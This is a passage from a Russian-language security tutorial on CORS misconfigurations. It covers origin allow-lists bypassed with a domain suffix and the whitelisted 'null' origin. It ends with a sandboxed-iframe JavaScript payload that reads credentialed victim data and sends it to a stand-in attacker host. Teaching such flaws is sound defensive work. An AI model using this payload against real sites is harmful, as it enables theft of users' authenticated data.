 В качестве альтернативы, предположим, что приложение предоставляет доступ ко всем доменам, начинающимся на

```
normal-website.com
```

Злоумышленник может получить доступ, используя домен:

```
normal-website.com.evil-user.net
```

### Whitelisted null origin value

Спецификация заголовка Origin поддерживает значение `null`. Браузеры могут отправлять значение `null` в заголовке Origin в различных необычных ситуациях:

- Cross-origin перенаправления
- Запросы с сериализованными данными
- Запросы с использованием протокола `file:`
- Cross-origin запросы в песочнице

Некоторые приложения могут включить нулевое происхождение в белый список для поддержки локальной разработки приложения. Например, предположим, что приложение получает следующий cross-origin запрос:

```http
GET /sensitive-victim-data HTTP/1.1
Host: vulnerable-website.com
Origin: null
```

И сервер отвечает следующим образом:

```http
HTTP/1.1 200 OK
Access-Control-Allow-Origin: null
Access-Control-Allow-Credentials: true
```

В этой ситуации злоумышленник может использовать различные уловки для создания cross-origin запроса, содержащего значение `null` в заголовке `Origin`. Это удовлетворит белый список, что приведет к междоменному доступу. Например, это можно сделать с помощью междоменного запроса iframe с песочницей, имеющего вид:

```js
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
	location='malicious-website.com/log?key='+this.responseText;
};
</script>"></iframe>
```
